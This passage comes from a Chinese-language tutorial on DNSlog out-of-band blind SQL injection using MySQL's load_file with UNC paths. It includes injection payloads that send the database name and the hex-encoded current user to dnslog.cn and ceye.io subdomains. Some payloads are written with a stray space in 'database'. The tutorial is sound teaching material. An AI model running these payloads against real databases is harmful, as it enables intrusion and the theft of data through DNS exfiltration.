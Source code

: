 2、欲读取文件必须在服务器上

3、必须指定文件完整的路径

4、欲读取文件必须小于`max_allowed_packet`

```mysql
show global VARIABLES like 'max_allowed_packet';

如果文件超过了max_allowed_packet，则结果如下：
mysql> select load_file("C:/Users/XF/Desktop/杀猪盘/index.php");
+---------------------------------------------------+
| load_file("C:/Users/XF/Desktop/杀猪盘/index.php")  |
+---------------------------------------------------+
| NULL                                              |
+---------------------------------------------------+
```

 如果该文件不存在，或因为上面的任一原因而不能被读出，函数返回空。比较难满足的就是权限。

在windows下，如果NTFS设置得当，是不能读取相关的文件的，当遇到administrators才能访问的文件，users就不能实现用load\_file读取文件了。

##### 3.1.2.1.注意事项

1. dnslog注入只能用于windows，因为load\_file这个函数的主要目的还是读取本地的文件，所以我们在拼接的时候需要在前面加上两个//，这两个斜杠的目的是为了使用load\_file可以查询的unc路径。但是Linux服务器没有unc路径，也就无法使用dnslog注入。
2. 在进行注入的时候，需要先判断该位置是否存在注入，然后再在后面拼接代码，因为对照payload进行输入的话，可能会出现dnslog网站接收不到的情况，这是我在进行复现的时候遇到的情况。
3. 在域名的后面，我们需要拼接一个文件名，这是因为load\_file函数只能请求文件，如果不加后面的文件名，同样无法得到显示。

#### 3.1.3.过程

(1)这里字符型注入和数字型注入都不会回显，是盲注，我们就用DNSlog注入

[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-33eaef32532483569218d23c035bdbdb10bcf195.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-33eaef32532483569218d23c035bdbdb10bcf195.png)

这里读取远程文件就要用到UNC路径，UNC路径就是类似\\\\softer这样的形式的网络路径,就是\\\\。例子：`\\\www.mss.cn\2.txt`。微软里喜欢跟别人反着来，所以在微软文件夹里查询用反斜杠&lt;code&gt;\\&lt;/code&gt;；而这里如果要在url中得用正斜杠&lt;code&gt;/&lt;/code&gt;，不然查不出来，如果硬要用反斜杠，得另外加反斜杠来转义，unc路径就要四个反斜杠，很麻烦。如：(select load\_file(concat('\\\\\\\\',(select datab ase()),'.xxxx.ceye.io\\\\abc')))

```mysql
当前库名payload：and (select load_file(concat('//',(select datab ase()),'.6.eudspa.dnslog.cn/a')))

注意：后面这个a文件存不存在并不重要，随便写个文件就行，只要发生了DNS解析，我们就能看到我们所需要的东西，如这里的库名，但是这个文件必须要写，因为这是load_file函数所需要的条件。
```

注：当前库名[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-8ecf103b60929686bf12f3f8c67cc14a1728ba21.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-8ecf103b60929686bf12f3f8c67cc14a1728ba21.png)

```mysql
用户名payload：and (select load_file(concat('//',(select hex(user())),'.wlgbdd.dnslog.cn/a')))

注意：为什么要对查询的内容进行hex编码？
如果我们要查询的用户名中存在特殊字符：如!@#$%^&
最后在请求DNS服务器时变成：!@#$%^&*.upa46v.dnslog.cn
存在特殊字符的域名无法解析。因此在DNS日志中也找不到我们查询的数据。
所以在我们查询时，当不确定查询结果是否存在特殊字符时，最好先将其hex编码后在带入查询。
```
